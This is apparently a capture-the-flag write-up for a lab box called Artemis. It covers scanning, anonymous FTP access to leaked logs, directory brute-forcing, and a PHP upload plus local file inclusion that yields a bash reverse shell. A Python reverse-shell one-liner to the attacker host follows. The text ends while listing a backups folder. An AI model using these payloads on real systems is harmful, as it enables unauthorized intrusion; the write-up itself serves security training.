


# write up - Artemis Box

We start by a `nmap` scan on the ip `192.168.19.0/24` to find the ip of the **Artemis** box.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sP 192.168.19.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-25 05:13 EDT
Nmap scan report for 192.168.19.2
Host is up (0.00035s latency).
Nmap scan report for 192.168.19.132
Host is up (0.00077s latency).
Nmap scan report for 192.168.19.133
Host is up (0.00080s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.57 seconds
```

Then when we have the ip of Artmeis we can run a port scan on `192.168.19.133`  to  find a way to go by.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -p- -A 192.168.19.133
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-25 05:18 EDT
Nmap scan report for 192.168.19.133
Host is up (0.00061s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: TYPO3 4.5 CMS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title:  L'ESGI, la grande \xC3\xA9cole informatique \xC3\xA0 Paris de Bac \xC3\xA0 Bac+5
25452/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:e4:c3:c7:4f:8b:0e:a3:53:bc:7a:a6:0f:43:19:61 (RSA)
|   256 62:af:ab:21:35:75:f6:8f:99:3d:d5:eb:19:fe:43:0e (ECDSA)
|_  256 4a:3c:bb:38:8c:ef:4a:dd:19:26:47:67:11:04:60:fa (ED25519)
61337/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             207 Mar 22 23:05 letters.txt
|_drwxr-xr-x    2 0        0            4096 Mar 23 01:15 logs
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.19.132
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
MAC Address: 00:0C:29:15:06:7F (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.61 ms 192.168.19.133

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.62 seconds
```

Here we can see a `ftp` port and some interesting infos like `Logged in as ftp` and no password. So we can try to connect with this log and no password.

```bash
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.19.133 61337
Connected to 192.168.19.133.
220 ESGI file server. Login with myges credentials.
Name (192.168.19.133:kali): ftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             207 Mar 22 23:05 letters.txt
drwxr-xr-x    2 0        0            4096 Mar 23 01:15 logs
226 Directory send OK.
```

As we can see that work and we can download the file. `Letters.txt` is out of interest, lets check the content of `logs`.

```bash
ftp> ls logs
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0           12172 Mar 22 23:04 access.log
-rw-r--r--    1 0        0            4881 Mar 23 01:15 auth.log
226 Directory send OK.
```

Jackpot there are 2 very interesting files: `acces.log` and `auth.log`, lets have a look on this.

```bash
192.168.204.133 - - [22/Mar/2021:22:16:43 +0300] "GET / HTTP/1.0" 200 433 "-" "-"
192.168.204.133 - - [22/Mar/2021:22:16:45 +0300] "GET /nmaplowercheck1616437005 HTTP/1.1" 404 457 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.204.133 - - [22/Mar/2021:22:16:45 +0300] "GET / HTTP/1.0" 200 433 "-" "-"
192.168.204.133 - - [22/Mar/2021:22:16:45 +0300] "GET /nmaplowercheck1616437006 HTTP/1.1" 404 457 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.204.133 - - [22/Mar/2021:22:16:45 +0300] "POST /sdk HTTP/1.1" 404 457 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.204.133 - - [22/Mar/2021:22:16:46 +0300] "GET /evox/about HTTP/1.1" 404 457 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.204.133 - - [22/Mar/2021:22:16:46 +0300] "GET /HNAP1 HTTP/1.1" 404 457 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.204.133 - - [22/Mar/2021:22:16:50 +0300] "GET / HTTP/1.0" 200 433 "-" "-"
192.168.204.133 - - [22/Mar/2021:22:16:50 +0300] "GET / HTTP/1.1" 200 414 "-" "-"
192.168.204.133 - - [22/Mar/2021:22:23:49 +0300] "GET / HTTP/1.1" 200 446 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:23:50 +0300] "GET /robots.txt HTTP/1.1" 404 493 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:23:50 +0300] "GET /favicon.ico HTTP/1.1" 404 493 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:37:16 +0300] "GET / HTTP/1.1" 200 24301 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:37:16 +0300] "GET /xjs/_/js/k=xjs.s.fr.E7-94xl0C6g.O/ck=xjs.s.Bb5PNo8uoLU.L.F4.O/m=cdos,cr,dpf,hsm,jsa,d,csi/am=MIAAACCCAgIAAACAAggrAwKAeAAgIAIASQAAAABgAmsAgP8gAHDBJQ4AAAAAgAC0JNAoNSAREAABAACArC6UAAEABA/d=1/dg=2/ct=zgms/rs=ACT90oE0c10l85r1zz8Z3xngXg8kFxrkpg?cb=4519958 HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:37:16 +0300] "GET /favicon.ico HTTP/1.1" 404 493 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:37:17 +0300] "GET / HTTP/1.1" 200 24301 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:37:17 +0300] "GET /xjs/_/js/k=xjs.s.fr.E7-94xl0C6g.O/ck=xjs.s.Bb5PNo8uoLU.L.F4.O/m=cdos,cr,dpf,hsm,jsa,d,csi/am=MIAAACCCAgIAAACAAggrAwKAeAAgIAIASQAAAABgAmsAgP8gAHDBJQ4AAAAAgAC0JNAoNSAREAABAACArC6UAAEABA/d=1/dg=2/ct=zgms/rs=ACT90oE0c10l85r1zz8Z3xngXg8kFxrkpg?cb=4519958 HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:37:17 +0300] "GET /favicon.ico HTTP/1.1" 404 493 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:16 +0300] "GET / HTTP/1.1" 200 8704 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:16 +0300] "GET /_static/js/playback.bundle.js?v=bQvHU8mx HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:16 +0300] "GET /_static/js/wombat.js?v=cRqOKCOw HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:16 +0300] "GET /_static/css/banner-styles.css?v=bsmaklHF HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:16 +0300] "GET /_static/css/iconochive.css?v=qtvMKcIJ HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:17 +0300] "GET /_static/js/playback.bundle.js?v=bQvHU8mx HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:17 +0300] "GET /_static/js/wombat.js?v=cRqOKCOw HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:17 +0300] "GET /_static/css/banner-styles.css?v=bsmaklHF HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:17 +0300] "GET /_static/css/iconochive.css?v=qtvMKcIJ HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:19 +0300] "GET /_static/images/toolbar/wm_tb_prv_on.png HTTP/1.1" 404 494 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:19 +0300] "GET /_static/images/toolbar/wayback-toolbar-logo-100.png HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:19 +0300] "GET /_static/images/loading.gif HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:19 +0300] "GET /_static/images/toolbar/wm_tb_nxt_on.png HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:22 +0300] "GET /_static/images/toolbar/wm_tb_prv_on.png HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:22 +0300] "GET /_static/images/toolbar/wm_tb_nxt_on.png HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:22 +0300] "GET /_static/images/toolbar/wayback-toolbar-logo-100.png HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:22 +0300] "GET /_static/images/loading.gif HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:39:42 +0300] "GET /aa HTTP/1.1" 404 494 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:42:42 +0300] "GET / HTTP/1.1" 200 8704 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:42:42 +0300] "GET /_static/images/toolbar/wayback-toolbar-logo-100.png HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:42:42 +0300] "GET /_static/images/toolbar/wm_tb_prv_on.png HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:42:42 +0300] "GET /_static/images/toolbar/wm_tb_nxt_on.png HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:42:42 +0300] "GET /_static/images/loading.gif HTTP/1.1" 404 494 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:42:42 +0300] "GET /_static/js/playback.bundle.js?v=bQvHU8mx HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:56:00 +0300] "GET /0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce/ HTTP/1.1" 200 444 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:42:42 +0300] "GET /_static/js/wombat.js?v=cRqOKCOw HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:42:42 +0300] "GET /_static/css/banner-styles.css?v=bsmaklHF HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:42:42 +0300] "GET /_static/css/iconochive.css?v=qtvMKcIJ HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:43:07 +0300] "GET /_static/images/toolbar/wm_tb_prv_on.png HTTP/1.1" 404 494 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:43:07 +0300] "GET /_static/images/toolbar/wm_tb_nxt_on.png HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:43:07 +0300] "GET /_static/images/loading.gif HTTP/1.1" 404 494 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:43:07 +0300] "GET /_static/images/toolbar/wayback-toolbar-logo-100.png HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:44:32 +0300] "GET / HTTP/1.1" 200 11082 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:44:32 +0300] "GET /_static/js/playback.bundle.js?v=bQvHU8mx HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:44:32 +0300] "GET /_static/js/wombat.js?v=cRqOKCOw HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:44:32 +0300] "GET /_static/css/banner-styles.css?v=bsmaklHF HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:44:32 +0300] "GET /_static/css/iconochive.css?v=qtvMKcIJ HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:44:34 +0300] "GET /_static/js/playback.bundle.js?v=bQvHU8mx HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:44:34 +0300] "GET /_static/js/wombat.js?v=cRqOKCOw HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:44:34 +0300] "GET / HTTP/1.1" 200 11081 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:44:34 +0300] "GET /_static/js/playback.bundle.js?v=bQvHU8mx HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:44:34 +0300] "GET /_static/js/wombat.js?v=cRqOKCOw HTTP/1.1" 404 494 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:44:34 +0300] "GET /_static/css/banner-styles.css?v=bsmaklHF HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:44:34 +0300] "GET /_static/css/iconochive.css?v=qtvMKcIJ HTTP/1.1" 404 493 "http://192.168.204.134/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.204.133 - - [22/Mar/2021:22:45:16 +0300] "GET /aa HTTP/1.1" 404 494 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
```

```c
Mar 22 22:09:01 artemis CRON[2790]: pam_unix(cron:session): session opened for user root by (uid=0)
Mar 22 22:09:01 artemis CRON[2790]: pam_unix(cron:session): session closed for user root
Mar 22 22:17:01 artemis CRON[2931]: pam_unix(cron:session): session opened for user root by (uid=0)
Mar 22 22:17:01 artemis CRON[2931]: pam_unix(cron:session): session closed for user root
Mar 22 22:19:38 artemis gnome-keyring-daemon[2990]: failed to unlock login keyring on startup
Mar 22 22:19:42 artemis polkitd(authority=local): Registered Authentication Agent for unix-session:5 (system bus name :1.78 [/usr/bin/gnome-shell], object path /org/freedesktop/PolicyKit1/AuthenticationAgent, locale en_US.UTF-8)
Mar 22 22:20:04 artemis dbus-daemon[589]: [system] Failed to activate service 'org.bluez': timed out (service_start_timeout=25000ms)
Mar 22 22:20:51 artemis pkexec: pam_unix(polkit-1:session): session opened for user root by (uid=1000)
Mar 22 22:22:40 artemis chage[4052]: changed password expiry for sshd
Mar 22 22:22:44 artemis sshd[4136]: Server listening on 0.0.0.0 port 22.
Mar 22 22:22:44 artemis sshd[4136]: Server listening on :: port 22.
Mar 22 22:23:55 artemis pkexec: pam_unix(polkit-1:session): session opened for user root by (uid=1000)
Mar 22 22:26:09 artemis sshd[4136]: Received signal 15; terminating.
Mar 22 22:26:09 artemis sshd[6660]: Server listening on 0.0.0.0 port 25452.
Mar 22 22:26:53 artemis pkexec: pam_unix(polkit-1:session): session opened for user root by (uid=1000)
Mar 22 22:28:15 artemis passwd[9524]: pam_unix(passwd:chauthtok): password changed for root
Mar 22 22:28:15 artemis passwd[9524]: gkr-pam: couldn't update the login keyring password: no old password was entered
Mar 22 22:28:19 artemis sshd[7748]: Accepted password for root from 192.168.204.133 port 51388 ssh2
Mar 22 22:28:19 artemis sshd[7748]: pam_unix(sshd:session): session opened for user root by (uid=0)
Mar 22 22:28:19 artemis systemd: pam_unix(systemd-user:session): session opened for user root by (uid=0)
Mar 22 22:28:19 artemis systemd-logind[652]: New session 7 of user root.
Mar 22 22:28:48 artemis sshd[7748]: Exiting on signal 15
Mar 22 22:28:48 artemis sshd[7748]: pam_unix(sshd:session): session closed for user root
Mar 22 22:28:48 artemis sshd[7748]: pam_systemd(sshd:session): Failed to release session: Interrupted system call
Mar 22 22:30:32 artemis CRON[605]: pam_unix(cron:session): session opened for user root by (uid=0)
Mar 22 22:30:33 artemis CRON[605]: pam_unix(cron:session): session closed for user root
Mar 22 22:30:33 artemis systemd-logind[610]: Watching system buttons on /dev/input/event0 (Power Button)
Mar 22 22:30:33 artemis systemd-logind[610]: New seat seat0.
Mar 22 22:30:36 artemis sshd[713]: Received SIGHUP; restarting.
Mar 22 22:30:37 artemis sshd[713]: Received SIGHUP; restarting.
Mar 22 22:30:40 artemis systemd-logind[610]: Watching system buttons on /dev/input/event1 (AT Translated Set 2 keyboard)
Mar 22 22:30:46 artemis useradd[1069]: failed adding user 'vboxadd', data deleted
Mar 22 22:30:47 artemis useradd[1070]: failed adding user 'vboxadd', data deleted
Mar 22 22:30:48 artemis gdm-launch-environment]: pam_unix(gdm-launch-environment:session): session opened for user gdm by (uid=0)
Mar 22 22:30:48 artemis systemd-logind[610]: New session c1 of user gdm.
Mar 22 22:30:48 artemis systemd: pam_unix(systemd-user:session): session opened for user gdm by (uid=0)
Mar 22 22:30:54 artemis polkitd(authority=local): Registered Authentication Agent for unix-session:c1 (system bus name :1.29 [/usr/bin/gnome-shell], object path /org/freedesktop/PolicyKit1/AuthenticationAgent, locale en_US.UTF-8)
Mar 22 22:31:09 artemis sshd[1372]: pam_unix(sshd:session): session opened for user root by (uid=0)
Mar 22 22:31:09 artemis systemd: pam_unix(systemd-user:session): session opened for user root by (uid=0)
Mar 22 22:31:09 artemis systemd-logind[610]: New session 3 of user root.
Mar 22 22:31:16 artemis dbus-daemon[593]: [system] Failed to activate service 'org.bluez': timed out (service_start_timeout=25000ms)
Mar 22 22:39:01 artemis CRON[2083]: pam_unix(cron:session): session opened for user root by (uid=0)
Mar 22 22:39:01 artemis CRON[2083]: pam_unix(cron:session): session closed for user root
Mar 22 22:56:27 artemis groupadd[2708]: group added to /etc/group: name=ftp, GID=127
Mar 22 22:56:27 artemis groupadd[2708]: group added to /etc/gshadow: name=ftp
Mar 22 22:56:27 artemis groupadd[2708]: new group: name=ftp, GID=127
Mar 22 22:56:27 artemis useradd[2712]: new user: name=ftp, UID=123, GID=127, home=/srv/ftp, shell=/usr/sbin/nologin
Mar 22 22:56:27 artemis usermod[2718]: change user 'ftp' password
Mar 22 22:56:27 artemis chage[2723]: changed password expiry for ftp
Mar 22 22:56:27 artemis chfn[2726]: changed user 'ftp' information
Mar 22 22:57:50 artemis vsftpd: pam_unix(vsftpd:auth): check pass; user unknown
```

there are some interesting things in both file, but the access.log give us something better. All the logs are `404` return but in this there are some `200` feedback, and in this there is the jackpot.

```bash
192.168.204.133 - - [22/Mar/2021:22:56:00 +0300] "GET /0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce/ HTTP/1.1" 200 444 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
```

Lets try it with a `gobuster` to find something interesting 

```bash
$ sudo gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 100 -x php,txt,pl,sh,asp,aspx,html,json,py,cfm,rb,cgi,jsp,bak -s 200,204,301,302,307 -u http://192.168.19.133/0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce/
[sudo] password for kali: 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.19.133/0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,pl,asp,cfm,txt,sh,json,py,rb,jsp,aspx,html,cgi,bak
[+] Timeout:                 10s
===============================================================
2021/03/25 05:36:44 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 32] 
/language.php         (Status: 200) [Size: 207]
/upload.php           (Status: 200) [Size: 289]
/uploads              (Status: 301) [Size: 383] [--> http://192.168.19.133/0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce/uploads/]
/upload.html          (Status: 200) [Size: 161]                                                                                                      
                                                                                                                                                     
===============================================================
2021/03/25 05:37:35 Finished
===============================================================
```

As we can the maybe we can upload some files or else. Let's go.



Nice we can upload some file. Now we know that we can write a `reverse shell` script and upload it as an image.

```bash
<?php>
	exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.19.132/7845 0>&1'");
<?>
```

When the script is online we can activate it by the page language. Why ? Cause this page request an other one for the `Lang=`

```bash
http://192.168.19.133/0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce/language.php?lang=uploads/tonscript.extension
```

And before that don't forget to start a `NetCat` session ;-) 

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 7845
listening on [any] 7845 ...
connect to [192.168.19.132] from (UNKNOWN) [192.168.19.133] 56290
bash: cannot set terminal process group (573): Inappropriate ioctl for device
bash: no job control in this shell
<493bc83f0fb56adda28125498762f28f1cc40c320300125ce$
```

Now than we have a shitty and low cost shell we need to upgrade it. For that we can run a python script to spawn a pty. 

So on my kali i run a `netcat` on an other port and launch my script on the reverse shell.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.19.132",7844));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash");'
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 7844
listening on [any] 7844 ...
connect to [192.168.19.132] from (UNKNOWN) [192.168.19.133] 53192
<493bc83f0fb56adda28125498762f28f1cc40c320300125ce$
```

Now let's check what are around.

```bash
www-data@artemis:/var/www/html$ ls -la
ls -la
total 84
drwxr-xr-x 4 root root  4096 Mar 22 22:50 .
drwxr-xr-x 3 root root  4096 Mar 26  2020 ..
drwxr-xr-x 3 root root  4096 Mar 22 22:54 0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce
drwxr-xr-x 3 root root  4096 Mar 23 01:46 backups-4e45a234079C45bc326b12ce453
-rw-r--r-- 1 root root 65761 Mar 22 22:44 index.html
```

Yeah there is an other folder near my spawn and we can read it let's go.

In this folder `backups-4e45a234079C45bc326b12ce453` there is lot of interesting files like wordpress file and the kraal a `.sql` file. 

```bash
<l/backups-4e45a234079C45bc326b12ce453/new-website$ ls -la
ls -la
total 200
drwxr-xr-x  5 root root  4096 Mar 23 02:17 .
drwxr-xr-x  3 root root  4096 Mar 23 01:46 ..
-rw-r--r--  1 root root   405 Mar 23 01:46 index.php
-rw-r--r--  1 root root  3189 Mar 23 02:17 users.sql
